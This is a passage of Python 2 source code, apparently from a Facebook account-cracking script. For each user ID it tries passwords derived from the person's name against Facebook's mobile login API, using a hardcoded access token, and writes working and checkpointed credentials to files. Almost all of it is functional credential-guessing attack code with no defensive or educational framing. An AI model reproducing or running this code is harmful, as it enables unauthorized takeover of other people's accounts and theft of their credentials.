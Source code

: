             data = session.get('https://b-api.facebook.com/method/auth.login?format=json&email=' + uid + '&password=' + pass1 + '&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true', headers=header).text
            q = json.loads(data)
            if 'access_token' in q:
                print '\x1b[1;32m[NAME-OK]\033[0m ' + uid + ' | ' + pass1 + '\x1b[0;97m'
                ok = open('okids.txt', 'a')
                ok.write(uid + '|' + pass1 + '\n')
                ok.close()
                oks.append(uid + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;31m[NAME-CP] \033[0m' + uid + ' | ' + pass1 + '\x1b[0;97m'
                cp = open('cpids.txt', 'a')
                cp.write(uid + '|' + pass1 + '\n')
                cp.close()
                cps.append(uid + pass1)
            else:
                pass2 = name.lower().split(' ')[0] + name.lower().split(' ')[1]
                data = session.get('https://b-api.facebook.com/method/auth.login?format=json&email=' + uid + '&password=' + pass2 + '&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true', headers=header).text
                q = json.loads(data)
                if 'access_token' in q:
                    print '\x1b[1;32m[OK]\033[0m ' + uid + ' | ' + pass2 + '\x1b[0;97m'
                    ok = open('okids.txt', 'a')
                    ok.write(uid + '|' + pass2 + '\n')
                    ok.close()
                    oks.append(uid + pass2)
                elif 'www.facebook.com' in q['error_msg']:
                    print '\x1b[1;31m[NAME-CP] \033[0m' + uid + ' | ' + pass2 + '\x1b[0;97m'
                    cp = open('cpids.txt', 'a')
                    cp.write(uid + '|' + pass2 + '\n')
                    cp.close()
                    cps.append(uid + pass2)
                else:
                    pass3 = name.lower() + 'khan'
                    data = session.get('https://b-api.facebook.com/method/auth.login?format=json&email=' + uid + '&password=' + pass3 + '&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true', headers=header).text
                    q = json.loads(data)
                    if 'access_token' in q:
                        print '\x1b[1;32m[OK]\033[0m ' + uid + ' | ' + pass3 + '\x1b[0;97m'
                        ok = open('okids.txt', 'a')
                        ok.write(uid + '|' + pass3 + '\n')
                        ok.close()
                        oks.append(uid + pass3)
                    elif 'www.facebook.com' in q['error_msg']:
                        print '\x1b[1;31m[NAME-CP] \033[0m' + uid + ' | ' + pass2 + '\x1b[0;97m' #Thanks TechQaiser.& Also SyedZada Bro
                        cp = open('cpids.txt', 'a')
                        cp.write(uid + '|' + pass3 + '\n')
                        cp.close()
                        cps.append(uid + pass3)
        except:
            pass